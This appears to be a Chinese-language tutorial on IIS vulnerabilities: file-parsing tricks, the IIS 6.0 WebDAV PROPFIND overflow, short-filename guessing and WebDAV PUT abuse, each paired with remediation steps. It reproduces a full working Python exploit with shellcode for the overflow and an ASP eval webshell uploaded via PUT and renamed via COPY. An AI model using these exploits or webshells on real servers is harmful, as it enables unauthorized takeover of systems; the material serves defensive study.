









一、IIS文件解析漏洞
文件解析漏洞存在于IIS6.0版本和IIS7.5版本，两种版本均存在逻辑问题。
1. IIS 6.0的文件解析漏洞
IIS6.0在处理含有特殊符号的文件路径时会出现逻辑错误，从而造成文件解析漏洞。
这一漏洞有两种完全不同的利用方式：
test.asp;.jpg
当网站上传点限制后缀名时(IIS主要和asp搭配)，可以利用文件解析漏洞上传如test.asp;.jpg的文件，虽然该文件真正的后缀名是.jpg，但由于含有特殊符号;,仍会被当作asp文件执行，从而造成文件解析漏洞。
/test.asp/test.jpg
当允许新建目录而未对目录名做限制时，可以利用文件解析漏洞新建目录名为test.asp的文件夹绕过（文件目录名为test.asp，目录中的文件会被当做asp执行）
2. IIS 7.5文件解析漏洞
IIS 7.5文件解析漏洞是因为url中只要看到后缀.php，无论是否存在均交给php处理，而php又默认开启cgi.fix_pathinfo，会对文件路径进行整理：从后向前判定是否存在，不存在则删减，存在则当作php文件执行。
例如：当php遇到路径为”/aaa.xxx/bbb.yyy”的时侯，若”/aaa.xxx/bbb.yyy”不存在，则会去掉最后的“bbb.yyy”，然后判断”/aaa.xxx”是否存在，若存在，则把“/aaa.xxx”当作文件。
若有文件test.jpg，访问时在其后加/.php，便可以把test.jpg/.php交给php，php处理文件路径”test.jpg/.php”得到”test.jpg”，该文件存在，便把该文件作为php程序执行了。
3. 漏洞修复
1）对新建目录文件名进行过滤，比如不允许新建包含.的文件夹；
2）取消网站后台新建目录的功能，不允许新建目录；
3）限制上传文件的执行权限，不允许执行脚本；
4）过滤.asp/xx.jpg，通过ISApi组件过滤，在httpd.ini中加入过滤规则(但此方法在server2003中未搜索到该文件)。
5）升级IIS版本
补充：
IIS6.0的解析漏洞同样存在于IIS 5.x的版本，而IIS7.5的畸形解析漏洞的攻击方法同样适用于IIS7.0和Nginx<8.03版本。
IIS远程命令执行漏洞
IIS 6.0命令执行漏洞，在开启WebDav服务的情况下存在可远程执行漏洞
漏洞原理
在IIS 6.0处理PROPFIND指令的时候，由于对url的长度没有进行有效的控制和检查，导致执行memcpy对虚拟路径进行构造的时候，引发栈溢出，从而导致远程代码执行。

漏洞复现
在本地执行exp，github上有开源exp：https://github.com/edwardz246003/IIS_exploit1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20#------------Our payload set up a ROP chain by using the overflow 3 times. It will launch a calc.exe which shows the bug is really dangerous.
#written by Zhiniang Peng and Chen Wu. Information Security Lab & School of Computer Science & Engineering, South China University of Technology Guangzhou, China
#-----------Email: edwardz@foxmail.com
import socket
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(('192.168.1.160',80))
pay='PROPFIND / HTTP/1.1\r\nHost: localhost\r\nContent-Length: 0\r\n'
pay+='If: <http://localhost/aaaaaaa'
pay+='\xe6\xbd\xa8\xe7\xa1\xa3\xe7\x9d\xa1\xe7\x84\xb3\xe6\xa4\xb6\xe4\x9d\xb2\xe7\xa8\xb9\xe4\xad\xb7\xe4\xbd\xb0\xe7\x95\x93\xe7\xa9\x8f\xe4\xa1\xa8\xe5\x99\xa3\xe6\xb5\x94\xe6\xa1\x85\xe3\xa5\x93\xe5\x81\xac\xe5\x95\xa7\xe6\x9d\xa3\xe3\x8d\xa4\xe4\x98\xb0\xe7\xa1\x85\xe6\xa5\x92\xe5\x90\xb1\xe4\xb1\x98\xe6\xa9\x91\xe7\x89\x81\xe4\x88\xb1\xe7\x80\xb5\xe5\xa1\x90\xe3\x99\xa4\xe6\xb1\x87\xe3\x94\xb9\xe5\x91\xaa\xe5\x80\xb4\xe5\x91\x83\xe7\x9d\x92\xe5\x81\xa1\xe3\x88\xb2\xe6\xb5\x8b\xe6\xb0\xb4\xe3\x89\x87\xe6\x89\x81\xe3\x9d\x8d\xe5\x85\xa1\xe5\xa1\xa2\xe4\x9d\xb3\xe5\x89\x90\xe3\x99\xb0\xe7\x95\x84\xe6\xa1\xaa\xe3\x8d\xb4\xe4\xb9\x8a\xe7\xa1\xab\xe4\xa5\xb6\xe4\xb9\xb3\xe4\xb1\xaa\xe5\x9d\xba\xe6\xbd\xb1\xe5\xa1\x8a\xe3\x88\xb0\xe3\x9d\xae\xe4\xad\x89\xe5\x89\x8d\xe4\xa1\xa3\xe6\xbd\x8c\xe7\x95\x96\xe7\x95\xb5\xe6\x99\xaf\xe7\x99\xa8\xe4\x91\x8d\xe5\x81\xb0\xe7\xa8\xb6\xe6\x89\x8b\xe6\x95\x97\xe7\x95\x90\xe6\xa9\xb2\xe7\xa9\xab\xe7\x9d\xa2\xe7\x99\x98\xe6\x89\x88\xe6\x94\xb1\xe3\x81\x94\xe6\xb1\xb9\xe5\x81\x8a\xe5\x91\xa2\xe5\x80\xb3\xe3\x95\xb7\xe6\xa9\xb7\xe4\x85\x84\xe3\x8c\xb4\xe6\x91\xb6\xe4\xb5\x86\xe5\x99\x94\xe4\x9d\xac\xe6\x95\x83\xe7\x98\xb2\xe7\x89\xb8\xe5\x9d\xa9\xe4\x8c\xb8\xe6\x89\xb2\xe5\xa8\xb0\xe5\xa4\xb8\xe5\x91\x88\xc8\x82\xc8\x82\xe1\x8b\x80\xe6\xa0\x83\xe6\xb1\x84\xe5\x89\x96\xe4\xac\xb7\xe6\xb1\xad\xe4\xbd\x98\xe5\xa1\x9a\xe7\xa5\x90\xe4\xa5\xaa\xe5\xa1\x8f\xe4\xa9\x92\xe4\x85\x90\xe6\x99\x8d\xe1\x8f\x80\xe6\xa0\x83\xe4\xa0\xb4\xe6\x94\xb1\xe6\xbd\x83\xe6\xb9\xa6\xe7\x91\x81\xe4\x8d\xac\xe1\x8f\x80\xe6\xa0\x83\xe5\x8d\x83\xe6\xa9\x81\xe7\x81\x92\xe3\x8c\xb0\xe5\xa1\xa6\xe4\x89\x8c\xe7\x81\x8b\xe6\x8d\x86\xe5\x85\xb3\xe7\xa5\x81\xe7\xa9\x90\xe4\xa9\xac'
pay+='>'
pay+=' (Not <locktoken:write1>) <http://localhost/bbbbbbb'
pay+='\xe7\xa5\x88\xe6\x85\xb5\xe4\xbd\x83\xe6\xbd\xa7\xe6\xad\xaf\xe4\xa1\x85\xe3\x99\x86\xe6\x9d\xb5\xe4\x90\xb3\xe3\xa1\xb1\xe5\x9d\xa5\xe5\xa9\xa2\xe5\x90\xb5\xe5\x99\xa1\xe6\xa5\x92\xe6\xa9\x93\xe5\x85\x97\xe3\xa1\x8e\xe5\xa5\x88\xe6\x8d\x95\xe4\xa5\xb1\xe4\x8d\xa4\xe6\x91\xb2\xe3\x91\xa8\xe4\x9d\x98\xe7\x85\xb9\xe3\x8d\xab\xe6\xad\x95\xe6\xb5\x88\xe5\x81\x8f\xe7\xa9\x86\xe3\x91\xb1\xe6\xbd\x94\xe7\x91\x83\xe5\xa5\x96\xe6\xbd\xaf\xe7\x8d\x81\xe3\x91\x97\xe6\x85\xa8\xe7\xa9\xb2\xe3\x9d\x85\xe4\xb5\x89\xe5\x9d\x8e\xe5\x91\x88\xe4\xb0\xb8\xe3\x99\xba\xe3\x95\xb2\xe6\x89\xa6\xe6\xb9\x83\xe4\xa1\xad\xe3\x95\x88\xe6\x85\xb7\xe4\xb5\x9a\xe6\x85\xb4\xe4\x84\xb3\xe4\x8d\xa5\xe5\x89\xb2\xe6\xb5\xa9\xe3\x99\xb1\xe4\xb9\xa4\xe6\xb8\xb9\xe6\x8d\x93\xe6\xad\xa4\xe5\x85\x86\xe4\xbc\xb0\xe7\xa1\xaf\xe7\x89\x93\xe6\x9d\x90\xe4\x95\x93\xe7\xa9\xa3\xe7\x84\xb9\xe4\xbd\x93\xe4\x91\x96\xe6\xbc\xb6\xe7\x8d\xb9\xe6\xa1\xb7\xe7\xa9\x96\xe6\x85\x8a\xe3\xa5\x85\xe3\x98\xb9\xe6\xb0\xb9\xe4\x94\xb1\xe3\x91\xb2\xe5\x8d\xa5\xe5\xa1\x8a\xe4\x91\x8e\xe7\xa9\x84\xe6\xb0\xb5\xe5\xa9\x96\xe6\x89\x81\xe6\xb9\xb2\xe6\x98\xb1\xe5\xa5\x99\xe5\x90\xb3\xe3\x85\x82\xe5\xa1\xa5\xe5\xa5\x81\xe7\x85\x90\xe3\x80\xb6\xe5\x9d\xb7\xe4\x91\x97\xe5\x8d\xa1\xe1\x8f\x80\xe6\xa0\x83\xe6\xb9\x8f\xe6\xa0\x80\xe6\xb9\x8f\xe6\xa0\x80\xe4\x89\x87\xe7\x99\xaa\xe1\x8f\x80\xe6\xa0\x83\xe4\x89\x97\xe4\xbd\xb4\xe5\xa5\x87\xe5\x88\xb4\xe4\xad\xa6\xe4\xad\x82\xe7\x91\xa4\xe7\xa1\xaf\xe6\x82\x82\xe6\xa0\x81\xe5\x84\xb5\xe7\x89\xba\xe7\x91\xba\xe4\xb5\x87\xe4\x91\x99\xe5\x9d\x97\xeb\x84\x93\xe6\xa0\x80\xe3\x85\xb6\xe6\xb9\xaf\xe2\x93\xa3\xe6\xa0\x81\xe1\x91\xa0\xe6\xa0\x83\xcc\x80\xe7\xbf\xbe\xef\xbf\xbf\xef\xbf\xbf\xe1\x8f\x80\xe6\xa0\x83\xd1\xae\xe6\xa0\x83\xe7\x85\xae\xe7\x91\xb0\xe1\x90\xb4\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81\xe9\x8e\x91\xe6\xa0\x80\xe3\xa4\xb1\xe6\x99\xae\xe4\xa5\x95\xe3\x81\x92\xe5\x91\xab\xe7\x99\xab\xe7\x89\x8a\xe7\xa5\xa1\xe1\x90\x9c\xe6\xa0\x83\xe6\xb8\x85\xe6\xa0\x80\xe7\x9c\xb2\xe7\xa5\xa8\xe4\xb5\xa9\xe3\x99\xac\xe4\x91\xa8\xe4\xb5\xb0\xe8\x89\x86\xe6\xa0\x80\xe4\xa1\xb7\xe3\x89\x93\xe1\xb6\xaa\xe6\xa0\x82\xe6\xbd\xaa\xe4\x8c\xb5\xe1\x8f\xb8\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81'
shellcode='VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JB6X6WMV7O7Z8Z8Y8Y2TMTJT1M017Y6Q01010ELSKS0ELS3SJM0K7T0J061K4K6U7W5KJLOLMR5ZNL0ZMV5L5LMX1ZLP0V3L5O5SLZ5Y4PKT4P4O5O4U3YJL7NLU8PMP1QMTMK051P1Q0F6T00NZLL2K5U0O0X6P0NKS0L6P6S8S2O4Q1U1X06013W7M0B2X5O5R2O02LTLPMK7UKL1Y9T1Z7Q0FLW2RKU1P7XKQ3O4S2ULR0DJN5Q4W1O0HMQLO3T1Y9V8V0O1U0C5LKX1Y0R2QMS4U9O2T9TML5K0RMP0E3OJZ2QMSNNKS1Q4L4O5Q9YMP9K9K6SNNLZ1Y8NMLML2Q8Q002U100Z9OKR1M3Y5TJM7OLX8P3ULY7Y0Y7X4YMW5MJULY7R1MKRKQ5W0X0N3U1KLP9O1P1L3W9P5POO0F2SMXJNJMJS8KJNKPA'
pay+=shellcode
pay+='>\r\n\r\n'
print pay
sock.send(pay)
data = sock.recv(80960)
print data
sock.close
运行脚本攻击目标机，执行成功后弹出计算器

漏洞修复
1）将IIS管理器的扩展组件WebDav禁用即可修复，修复后运行脚本不会弹窗
2）使用相关防护设备
IIS短文件名猜解
漏洞原理
IIS的短文件名机制，即为了兼容16位MS-DOS程序，Windows为文件名较长的（计算后缀名文件名长度大于9）文件（和文件夹）生成了对应的windows 8.3短文件名。
利用IIS短文件名机制，可以暴力猜解短文件名，尝试猜解后台地址、敏感文件甚至直接下载对应的文件。但局限于只能猜解长文件名前六位和扩展名前3位，同时需要IIS和.net两个条件都满足。访问构造的某个存在的短文件名，会返回404，访问构造的某个不存在的短文件名，返回400。

漏洞复现
在c:/Inetpub/wwwroot目录下新建对比文件夹12345678，123456789，对比文件aaaaaa.asp
尝试访问192.168.1.160/122*~1****/a.asp和192.168.1.160/123*~1****/a.asp,得到不同的结果；根据返回结果的不同可以逐个猜解短文件名
使用了好几个星号是为了程序化自动猜解，逐个猜解后缀名，事实上由于星号可以匹配空，所以一个和多个星号并无区别。访问192.168.1.160/122*~1****/a.asp：

访问192.168.1.160/123*~1****/a.asp:

尝试192.168.1.160/aaaaaa~1/a.asp（猜解无后缀，正常返回则为文件夹）和192.168.1.160/aaaaaa~1****/a.asp（猜解为文件）
访问192.168.1.160/aaaaaa~1/a.asp：

访问192.168.1.160/aaaaaa~1****/a.asp：
根据不同的回显我们可以判断正在猜解的对象是文件还是文件夹。
漏洞修复
- 升级.net frameework;
- 修改注册表，禁用短文件名功能
命令窗口输入regedit打开注册表窗口，找到路径：HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\FileSystem，将其中的 NtfsDisable8dot3NameCreation这一项的值设为1,表示不创建短文件名格式，修改完成后，需要重启系统生效。 - cmd关闭NTFS 8.3文件格式的支持；
- 将web文件夹的内容拷贝到另一个位置，如c:\www到d:\w,然后删除原文件夹，再将拷贝的文件夹移动回来,重命名d:\w到c:\www。
补充：目前有比较好的IIS短文件名检查工具，下载地址为：https://github.com/lijiejie/IIS_shortname_Scanner
局限性
1) 此漏洞只能确定前6个字符，如果后面的字符太长、包含特殊字符，很难猜解；
2) 如果文件名本身太短（无短文件名）也是无法猜解的；
3) 如果文件名前6位带空格，8.3格式的短文件名会补进，和真实文件名不匹配；
PUT(对IIS写权限的利用)
漏洞原理
条件：开启WebDAV和写权限，IIS 6.0
开启WebDAV之后，IIS就支持PROPFIND、PROPPATCH、MKCOL、DELETE、PUT、COPY、MOVE、LOCK、UNLOCK等方法了
当IIS中的配置允许写入的时候就可以直接PUT文件上去，由此可能引发非常严重的安全问题，强烈建议禁制
漏洞复现
利用burp抓包，将GET请求改为OPTIONS

如果Response包有Public: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK,则说明存在漏洞
如果存在PUT方法，则可以尝试写入一个txt文件。1
2
3
4
5PUT /shell.txt HTTP/1.1
Host:thief.one
Content-length:30
<%eval request("nmask")%>
返回200则说明上传成功，此时可以手动访问此文件，确认是否存在。当然也有可能返回403，这表示此目录没有上传的权限，可以尝试上传到其他目录。通过MOVE或COPY方法改文件后缀名。1
2
3
4COPY /shell.txt HTTP/1.1
Host:thief.one
Destination:http://thief.one/shell.asp
拿到shell后，使用菜刀连接，能会在WEB服务器上上传、修改或删除WEB页面、脚本和文件，从而达到网页篡改，控制服务器的目的。
漏洞修复
禁止WebDAV功能和写权限